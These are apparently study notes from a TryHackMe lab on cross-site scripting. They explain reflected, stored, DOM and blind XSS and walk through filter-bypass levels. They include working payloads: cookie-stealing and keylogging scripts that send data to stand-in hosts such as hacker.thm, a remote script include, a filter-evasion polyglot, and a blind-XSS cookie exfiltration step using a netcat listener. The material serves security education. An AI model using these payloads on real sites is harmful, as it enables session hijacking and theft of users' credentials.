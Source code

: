 #+TITLE: Cross-Site Scripting
* Intro
Prerequisites:
It's worth noting that because XSS is based on JavaScript, it would be helpful to have a basic understanding of the language. However, none of the examples is overly complicated—also, a basic understanding of Client-Server requests and responses.


Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.


Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.

[[https://hackerone.com/reports/415484][XSS found in Shopify]]
[[https://hackerone.com/reports/409850][7,500 for XSS found in Steam chat]]
[[https://hackerone.com/reports/449351][2,500 for XSS in HackerOne]]
[[https://hackerone.com/reports/283825][XSS found in infogram]]

* XSS Payloads

** What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.


The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).


Here are some examples of XSS intentions.


** Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


<script>alert('XSS');</script>


** Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>


** Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


** Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:


<script>user.changeEmail('attacker@hacker.thm');</script>


Now that the email address for the account has changed, the attacker may perform a reset password attack.


The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.

* Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.


Example Scenario:

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.


"https://website.thm/?error=invalid input Detected" 

<p>invalid input Detected</p>

The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.


URL = Http://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>
PAGE SOURCE = <p><script src="https://attacker.thm/evil.js"></script></p>


The vulnerability can be used as per the scenario in the image below:


Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

    Parameters in the URL Query String
    URL File Path
    Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6)
  
* Stored XSS

  As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example Scenario:

A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.



Potential Impact:

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

    Comments on a blog
    User profile information
    Website Listings

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 
Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6).

* DOM Based XSS

 What is the DOM?

DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:


If you want to learn more about the DOM and gain a deeper understanding w3.org have a great resource.

Exploiting the DOM

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.


Example Scenario:

The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.


Potential Impact:

Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

How to test for Dom Based XSS:


DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.


When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

* Blind XSS

  Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

Example Scenario:

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

Potential Impact:

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

How to test for Blind XSS:


When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


A popular tool for Blind XSS attacks is [[https://xsshunter.com/][xsshunter]]. Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

* Perfecting your Payload
  
The payload is the JavaScript code we want to execute either on another user's browser or as a proof of concept to demonstrate a vulnerability in a website.

Your payload could have many intentions, from just bringing up a JavaScript alert box to prove we can execute JavaScript on the target website to extracting information from the webpage or user's session.

How your JavaScript payload gets reflected in a target website's code will determine the payload you need to use. To Explain this, click the green Start Machine button on the right, and when the machine has loaded, open the below link in a new tab.
https://LAB_WEB_URL.p.thmlabs.com


The aim for each level will be to execute the JavaScript alert function with the string THM, for example:

<script>alert('THM');</script>

** Level One:

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:


If you view the Page Source, You'll see your name reflected in the code:


Instead of entering your name, we're instead going to try entering the following JavaScript Payload: <script>alert('THM');</script>

Now when you click the enter button, you'll get an alert popup with the string THM and the page source will look like the following:


And then, you'll get a confirmation message that your payload was successful with a link to the next level.

** Level Two:

Like the previous level, you're being asked again to enter your name. This time when clicking enter, your name is being reflected in an input tag instead:



Viewing the page source, you can see your name reflected inside the value attribute of the input tag:


It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: "><script>alert('THM');</script>

The important part of the payload is the "> which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.


** Level Three:

You're presented with another form asking for your name, and the same as the previous level, your name gets reflected inside an HTML tag, this time the textarea tag.


We'll have to escape the textarea tag a little differently from the input one (in Level Two) by using the following payload: </textarea><script>alert('THM');</script>

This turns this:


Into This:


The important part of the above payload is </textarea>, which causes the textarea element to close so the script will run.

Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

** Level Four:

Entering your name into the form, you'll see it reflected on the page. This level looks similar to level one, but upon inspecting the page source, you'll see your name gets reflected in some JavaScript code.


You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload ';alert('THM');//  which you'll see from the below screenshot will execute your code. The ' closes the field specifying the name, then ; signifies the end of the current command, and the // at the end makes anything after it a comment rather than executable code.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.


** Level Five:

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the <script>alert('THM');</script> payload, it won't work. When you view the page source, you'll see why.


The word script  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.
Original Payload:
<sscriptcript>alert('THM');</sscriptcript>

Text to be removed (by the filter):
<sscriptcript>alert('THM');</sscriptcript>

Final Payload (after passing the filter):
<script>alert('THM');</script>


Try entering the payload <sscriptcript>alert('THM');</sscriptcript> and click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.
Level Six:


Similar to level two, where we had to escape from the value attribute of an input tag, we can try "><script>alert('THM');</script> , but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.


You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this /images/cat.jpg" onload="alert('THM'); and then viewing the page source, and you'll see how this will work.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.

Polyglots:


An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

* Practical Example (Blind XSS)
  
  For the last task, we're going to go over a Blind XSS vulnerability. Make sure you terminate the previous machine and then click on the green Start Machine button on the right to load the Acme IT Support website. You'll need to either by connected to the TryHackMe VPN or open the AttackBox using the blue button at the top of the page. Once loaded, click on the link below or open it inside using the AttackBox browser to view the target website.


https://10-10-166-64.p.thmlabs.com


Click on the Customers tab on the top navigation bar and click the "Signup here" link to create an account. Once your account gets set up, click the Support Tickets tab, which is the feature we will investigate for weaknesses. 


Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 


Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.





Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:


</textarea>test


Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.





Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:


 </textarea><script>alert('THM');</script>


Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 


Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly you'll need to set up a listening server to receive the information; we'll discuss two methods of doing this:


One:

If you're connected to the TryHackMe VPN or using the TryHackMe AttackBox, you could set up a listening server using Netcat:


nc

           
user@machine$ nc -nlvp 9001

        

Two:

You can use the TryHackMe request catcher at http://10.10.10.100 (you must be connected to the TryHackMe VPN network or using the browser in an AttackBox for this to work). This service provides a unique URL that receives and displays HTTP and DNS requests made to it.


Now that you've decided on the method of receiving the exfiltrated information, let's build the payload.


</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>


Let's breakdown the payload:

The </textarea> tag closes the textarea field. 

The <script>tag opens open an area for us to write JavaScript.

The fetch() command makes an HTTP request.

{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

?cookie= is the query string that will contain the victim's cookies.

btoa() command base64 encodes the victim's cookies.

document.cookie accesses the victim's cookies for the Acme IT Support Website.

</script>closes the JavaScript code block.


Now create another ticket using the above payload, making sure to swap out the {URL_OR_IP} variable to your settings (make sure to specify the port number as well, in case you are using Method One). Now, wait up to a minute, and you'll see the request come through containing the victim's cookies. 


You can now base64 decode this information using a site like https://www.base64decode.org/, giving you the necessary information to answer the below question.


